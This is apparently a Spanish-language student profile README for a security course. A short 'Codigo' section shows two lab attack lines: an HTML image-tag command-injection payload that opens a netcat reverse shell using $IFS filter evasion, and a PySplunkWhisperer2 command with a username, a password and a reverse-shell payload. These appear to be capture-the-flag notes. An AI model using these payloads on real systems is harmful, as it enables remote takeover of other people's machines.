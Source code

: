 # CVDSLAB1
## Nombre
**Cristian Camilo Pineros Arevalo.**
## Informacion Basica
_Estudiante de ingenieria de sistemas con enfasis en seguridad._
## Perfil
![images](perfil.jpg)

Ingeniero de Sistemas con interés en el área de seguridad informática y redes.
Conocimientos en

ethical hacking\
ciberseguridad\
desarrollo de software\
Con experiencia en el uso de herramientas como Java, Python, SQL, Github,
Kali Linux, Parrot.
## Plan de estudio
- CVDS
- MCSW-M1

## Codigo
~~~
<img src=http://10.10.16.110/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.16.110'$IFS'1234')>



python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.16.110  --username shaun --password Guitar123 --payload 'nc.traditional -e/bin/sh '10.10.16.110' '4444''
~~~

## Curso
![images](Remote.jpg)
![images](Main.jpg)
